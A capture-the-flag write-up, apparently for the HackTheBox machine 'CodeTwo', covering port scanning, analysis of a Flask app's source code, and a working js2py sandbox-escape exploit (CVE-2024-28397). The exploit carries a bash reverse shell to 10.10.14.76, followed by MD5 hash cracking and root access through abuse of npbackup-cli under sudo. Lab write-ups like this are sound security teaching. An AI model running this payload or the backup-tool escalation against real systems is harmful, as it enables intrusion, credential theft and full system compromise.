# Scanning

## Rustscan - Initial Port Discovery



- Our initial reconnaissance revealed two open ports on the target machine:
	- **Port 22** - SSH service (standard secure shell access)
	- **Port 8000** - HTTP service (likely a web application)

- This limited attack surface suggests a focused approach will be most effective.
## Nmap - Detailed Service Enumeration

```bash
# Nmap 7.94SVN scan initiated Wed Aug 27 21:10:14 2025 as: nmap -sC -sV -p22,8000 -oA nmap/initials -Pn 10.10.11.82
Nmap scan report for codetwo.htb (10.10.11.82)
Host is up (0.32s latency).

PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http-alt?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 27 21:13:22 2025 -- 1 IP address (1 host up) scanned in 187.64 seconds
```

- **Key Findings:**
	- **SSH Service**: OpenSSH 8.2p1 running on Ubuntu (relatively secure version)
	- **HTTP Service**: Non-standard port 8000 hosting an unknown web application
	- **Operating System**: Ubuntu Linux system

# Enumeration Phase

## Web Application Analysis (Port 8000)



- The web application presents a clean interface with three primary features:
	- **Login System** - User authentication mechanism
	- **Registration Portal** - New user account creation
	- **Download App** - Source code distribution feature

- This combination suggests a code-sharing or development platform.



## Initial Access Strategy

- I created test credentials using the username `user` and password `user` to gain legitimate access to the application. 
- This allowed me to explore the authenticated features without triggering security mechanisms.



- **Authenticated Access Revealed:**
	- **Dashboard URL**: `http://10.10.11.82:8000/dashboard` - Main user interface
	- **Download URL**: `http://10.10.11.82:8000/download` - Source code access

## Source Code Analysis

- The `/download` endpoint provided the complete application source code in `app.zip`. 
- This invaluable resource allowed for white-box security analysis and vulnerability identification.
## JavaScript Console Discovery

- The `/dashboard` endpoint revealed an interactive JavaScript execution environment - a critical security feature that immediately caught my attention.



- This JavaScript console allows users to execute arbitrary JavaScript code, which presents a significant attack surface if not properly sandboxed.

# Exploitation Phase

## Source Code Vulnerability Assessment

- After extracting and analyzing the downloaded source code, I identified a critical vulnerability involving the **`js2py` Python module**. Here's the complete Flask application code:

```python
from flask import Flask, render_template, request, redirect, url_for, session, jsonify, send_from_directory
from flask_sqlalchemy import SQLAlchemy
import hashlib
import js2py
import os
import json

js2py.disable_pyimport()
app = Flask(__name__)
app.secret_key = 'S3cr3tK3yC0d3Tw0'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password_hash = db.Column(db.String(128), nullable=False)

class CodeSnippet(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    code = db.Column(db.Text, nullable=False)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/dashboard')
def dashboard():
    if 'user_id' in session:
        user_codes = CodeSnippet.query.filter_by(user_id=session['user_id']).all()
        return render_template('dashboard.html', codes=user_codes)
    return redirect(url_for('login'))

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        password_hash = hashlib.md5(password.encode()).hexdigest()
        new_user = User(username=username, password_hash=password_hash)
        db.session.add(new_user)
        db.session.commit()
        return redirect(url_for('login'))
    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        password_hash = hashlib.md5(password.encode()).hexdigest()
        user = User.query.filter_by(username=username, password_hash=password_hash).first()
        if user:
            session['user_id'] = user.id
            session['username'] = username;
            return redirect(url_for('dashboard'))
        return "Invalid credentials"
    return render_template('login.html')

@app.route('/logout')
def logout():
    session.pop('user_id', None)
    return redirect(url_for('index'))

@app.route('/save_code', methods=['POST'])
def save_code():
    if 'user_id' in session:
        code = request.json.get('code')
        new_code = CodeSnippet(user_id=session['user_id'], code=code)
        db.session.add(new_code)
        db.session.commit()
        return jsonify({"message": "Code saved successfully"})
    return jsonify({"error": "User not logged in"}), 401

@app.route('/download')
def download():
    return send_from_directory(directory='/home/app/app/static/', path='app.zip', as_attachment=True)

@app.route('/delete_code/<int:code_id>', methods=['POST'])
def delete_code(code_id):
    if 'user_id' in session:
        code = CodeSnippet.query.get(code_id)
        if code and code.user_id == session['user_id']:
            db.session.delete(code)
            db.session.commit()
            return jsonify({"message": "Code deleted successfully"})
        return jsonify({"error": "Code not found"}), 404
    return jsonify({"error": "User not logged in"}), 401

@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})

if __name__ == '__main__':
    with app.app_context():
        db.create_all()
    app.run(host='0.0.0.0', debug=True)
```

## CVE-2024-28397: js2py Sandbox Escape Vulnerability

- My research revealed a critical vulnerability in the `js2py` library that allows sandbox escape and remote code execution. 
- I found an excellent proof-of-concept from the [CVE-2024-28397-js2py-Sandbox-Escape POC repository](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape).



### Understanding the js2py Vulnerability

- **What is js2py?**
	- `js2py` is a Python package designed to safely evaluate JavaScript code within Python interpreters
	- It's commonly used by web scrapers to parse and execute JavaScript found on websites
	- The library includes security measures like `js2py.disable_pyimport()` to prevent code escape
- **The Critical Flaw:**
	- A vulnerability exists in the implementation of global variables within `js2py`
	- Attackers can obtain references to Python objects within the js2py environment
	- This allows complete escape from the JavaScript sandbox
	- Remote code execution becomes possible despite security restrictions
- **Attack Scenarios:**
	- Malicious websites can host JavaScript files that exploit this vulnerability
	- HTTP APIs accepting JavaScript code become vectors for remote code execution
- Any application using `js2py` to process untrusted JavaScript is vulnerable

### Exploitation Development

- I modified the original proof-of-concept to include a reverse shell payload targeting my attack machine:

```javascript
let cmd = "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.76/1337 0>&1'"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

- **Payload Breakdown:**
	- **Line 1**: Defines the reverse shell command targeting my listener
	- **Lines 2-7**: Establishes access to Python object references through JavaScript
	- **Lines 9-18**: Locates the Python `subprocess.Popen` class for command execution
	- **Line 20**: Executes the reverse shell command using the discovered Popen class

## Gaining Initial Access

- I established a netcat listener on port 1337 and executed the malicious JavaScript payload through the web application's console interface.



- The payload executed successfully through the dashboard interface:



- **Success!** The reverse shell connected immediately, providing access as the `app` service account:



## Database Credential Extraction

- The application source code revealed critical database configuration details:

```python
js2py.disable_pyimport()
app = Flask(__name__)
app.secret_key = 'S3cr3tK3yC0d3Tw0'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
db = SQLAlchemy(app)
```

## SQLite Database Analysis

- I located the SQLite database file at `/app/instance/users.db` and extracted the user credentials:



- **Database Contents:**



```
marco | 649c9d65a206a75f5abe509fe128bce5
app   | a97588c0e2fa3a024876339e27aeb42e
```

## Password Cracking

- Using John the Ripper, I successfully cracked the MD5 hashes:



- **Cracked Credentials:**
	- **Username**: `marco`
	- **Password**: `sweetangelbabylove`

## SSH Access and User Flag

- With the recovered credentials, I successfully authenticated via SSH:



- **User Flag Retrieved:**



```
a90eb8b312927f4bf9f56831b4af4d82
```

# Post-Exploitation and Privilege Escalation

## Sudo Privileges Assessment

- I examined the user's sudo privileges to identify potential escalation vectors:



- **Critical Discovery:** The user `marco` can execute `/usr/local/bin/npbackup-cli` with full sudo privileges without password authentication.

## NPBackup Analysis

- NPBackup is a comprehensive backup solution available at [https://github.com/netinvent/npbackup](https://github.com/netinvent/npbackup). The tool provides extensive backup and restore capabilities, including:



- **Key Command Options:**
	- `-b` flag: Initiates backup operations
	- `-f` flag: Forces backup execution without prompts
	- Configuration-driven backup processes
	
## Configuration File Analysis

- The backup tool relies on `npbackup.conf` for operational parameters. I copied this configuration to `/tmp` for modification:

```yml
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri:     __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password:       __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```

## Privilege Escalation Strategy

- I modified the configuration file to target the `/root` directory instead of the default application path:

```yml
paths:
      - /root
```

## Root Access Execution

- **Step 1: Execute Backup with Modified Configuration**

```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf -b -f
```

- **Step 2: Extract Root Flag Using Dump Feature**

```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump /root/root.txt
```



- **Root Flag Successfully Retrieved:**

```
e7ff41c9ff2b0ae691783c04259b6e2a
```

# Attack Summary and Key Takeaways

- This penetration test demonstrated a complete compromise chain from initial reconnaissance to full root access:

1. **Information Gathering**: Port scanning revealed limited attack surface
2. **Web Application Analysis**: Source code disclosure provided critical vulnerability intelligence
3. **Vulnerability Exploitation**: CVE-2024-28397 in js2py enabled initial access
4. **Lateral Movement**: Database credential extraction facilitated user account compromise
5. **Privilege Escalation**: Misconfigured sudo permissions allowed root access through backup tool abuse
